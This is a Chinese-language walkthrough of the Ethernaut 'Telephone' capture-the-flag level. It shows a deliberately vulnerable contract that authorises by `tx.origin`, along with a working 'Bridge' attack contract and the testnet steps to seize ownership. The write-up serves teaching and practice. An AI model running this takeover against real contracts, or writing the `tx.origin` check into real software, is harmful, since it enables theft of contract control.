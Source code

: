 # level4 Telephone

## 1. 问题

将 `Telephone` 合约的 `owner` 设置为自己的地址。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```


## 2. 解法

合约中提供了 `changeOwner` 函数，只要该函数的调用方（`msg.sender`）和交易发起方（`tx.origin`）不一致，就可以成功修改 `owner`。我们可以通过部署一个 Bridge 合约，间接调用 `changeOwner` 函数来实现目标。

> [!TIP]
> `tx.origin` 指向的是**最初发起交易**的 EOA 地址，而 `msg.sender` 指向的是**直接调用本合约的上一个地址**。
> 对于嵌套调用的场景：`EOA(A) -> CONTRACT(B) -> CONTRACT(C)`，在合约 C 中的函数中，`tx.origin = A`，`msg.sender = B`。


1. 编写一个 Bridge 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Bridge {
    Telephone public telephone;

    constructor(address _telephone) {
        telephone = Telephone(_telephone);
    }
    
    function send() external {
        // 设置owner为EOA地址
        telephone.changeOwner(msg.sender);
    }
} 
```

2. 将上述代码复制到 Remix，部署到测试链：[交易链接](https://sepolia.etherscan.io/tx/0xf97be735216a1dddb144ff56dcf25b7de9f94af21c7e5f2ef987c7557d317f35)。


3. 在 Remix 中调用 `send` 接口：[交易链接](https://sepolia.etherscan.io/tx/0x77174fef6cca1ed5feb39a0ee7ea1ee836f4eca9612c029806adbe61872c6b0a)。


4. 在 Ethernaut 控制台查询 `owner`，确认地址已经变更：

```bash
await contract.owner()
```

5. 点击 `submit instance`， 提交通过！



<br/>
<br/>
| [⬅️ level3 Coin Flip](../level3_coinflip/README.md) | [level5 Token ➡️](../level5_token/README.md) |
|:------------------------------|--------------------------:|